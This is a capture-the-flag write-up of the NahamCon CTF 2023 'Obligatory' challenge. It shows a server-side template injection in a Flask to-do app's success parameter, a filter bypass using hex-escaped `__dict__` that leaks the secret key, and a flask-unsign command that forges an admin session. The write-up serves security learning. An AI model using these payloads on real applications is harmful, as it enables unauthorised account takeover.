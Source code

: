 ```yaml
---
title: Obliagtory - NahamconCTF 2023
date: 2023-06-18
categories: [CTF Writeups]
tags: [CTF, NahamconCTF 2023, SSTI, Filter Bypass]
---
```


NahamCon CTF 2023

*Every Capture the Flag competition has to have an obligatory to-do list application, right???*

## Writeup
Sign Up and Login on the Web Application. The website is a Todo-List tracker

![todo](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/todolist.png)

After creating a task, a message `Task created` is printed. The message can also be controlled via the `success` GET parameter

```
http://challenge.nahamcon.com:PORT/?success=Task%20created
```
{% raw %}
The parameter is Vulnerable to **SSTI**

![ssti](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/ssti.png)

```
http://challenge.nahamcon.com:31129/?success={{7*7}}
```

I tried to leak Config items with `{{config.items()}}`, but is blocked by the filter

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/config-waf.png)


Bypassed with `{{self|attr("\x5f\x5fdict\x5f\x5f")}}` 
{% endraw %}

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/waf-bypass.png)

Now that we got the SECRET_KEY, we can forge our own Flask Session and login as Admin

```bash
flask-unsign --sign --cookie "{'id':1}" --secret "&GTHN&Ngup3WqNm6q\$5nPGSAoa7SaDuY"
```

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/waf-bypass.png)

**Flag obtained after using the newly signed auth-token**

![](https://github.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/raw/main/Obligatory/flag.png)
